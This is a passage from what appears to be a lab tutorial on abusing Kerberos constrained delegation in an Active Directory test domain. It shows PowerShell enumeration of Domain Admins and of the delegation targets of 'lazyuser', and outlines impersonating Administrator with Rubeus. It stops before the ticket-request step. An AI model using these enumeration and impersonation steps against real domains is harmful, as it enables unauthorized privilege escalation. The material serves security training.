 It looks good. Now lets try to access "cifs" service.

	PS C:\Users\testuser\Desktop> dir \\kabil\c$
	dir : Access is denied
	At line:1 char:1
	+ dir \\kabil\c$
	+ ~~~~~~~~~~~~~~
		+ CategoryInfo          : PermissionDenied: (\\kabil\c$:String) [Get-ChildItem], UnauthorizedAccessException
		+ FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

	dir : Cannot find path '\\kabil\c$' because it does not exist.
	At line:1 char:1
	+ dir \\kabil\c$
	+ ~~~~~~~~~~~~~~
		+ CategoryInfo          : ObjectNotFound: (\\kabil\c$:String) [Get-ChildItem], ItemNotFoundException
		+ FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand


We got an error because our current user ("lazyuser") doesn't have rights to access "C\$" share. But good thing is this user configured for constrained delegation. So lets think who has access rights to "C\$"... Domain admins ofc. :)

First lets check domain admins group members

	PS C:\Users\testuser\Desktop> Get-DomainGroupMember -Identity "Domain Admins"  | select MemberName

	MemberName
	----------
	superuser
	Administrator


Okay there is 2 users. We can use either of them. Lets continue with administrator. Actually flow is simple:

Normally "Administrator" user asks "lazyuser" to "i want to access this service" and "lazyuser" talks with KDC and says "Someone wants to access service, gimme a ticket for him." Since we are already "lazyuser" why not use a little lie and ask ticket :)

Normally we have clear password of user but rubeus asks for "rc4", convert that hash to NTLM. Before starting lets remember which services "lazyuser" allowed to delegate

	PS C:\Users\testuser\Desktop> Get-DomainUser -Identity lazyuser -Properties samaccountname,msds-allowedtodelegateto | Se
	lect -Expand msds-allowedtodelegateto
	cifs/kabil.child.valhalla.local/child.valhalla.local
	cifs/kabil.child.valhalla.local
	cifs/KABIL
	cifs/kabil.child.valhalla.local/CHILD
	cifs/KABIL/CHILD
	
Okay overall:

clear all tickets
